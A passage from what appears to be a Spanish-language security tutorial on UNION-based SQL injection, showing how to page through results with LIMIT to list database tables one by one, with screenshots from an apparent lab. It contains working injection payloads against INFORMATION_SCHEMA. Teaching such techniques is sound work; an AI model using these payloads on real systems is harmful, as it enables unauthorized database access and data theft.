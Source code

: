 Finalmente se envía y en la respuesta se podrá apreciar toda la información solicitada:

[![sqlinjectunionattackburp4](/images/sqlinjectunionattackburp4.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectunionattackburp4.png)


### Limitación de resultados

En algunas situaciones la inyección no permite mostrar toda la información en una sola consulta, por lo que debemos limitar la respuesta para ir de una en una, de la siguiente forma:

```sql
test' union select 1,table_name,3,4,5,6,7 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=database() LIMIT 0,1-- -
```

Con esto se obtiene la primera tabla de la base de datos, que en para este caso es ```blog```:

[![sqlinjectlimit1](/images/sqlinjectlimit1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectlimit1.png)

A continuación obtendremos la segunda tabla que es ```heroes```

```sql
test' union select 1,table_name,3,4,5,6,7 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=database() LIMIT 1,1-- -
```

[![sqlinjectlimit2](/images/sqlinjectlimit2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectlimit2.png)
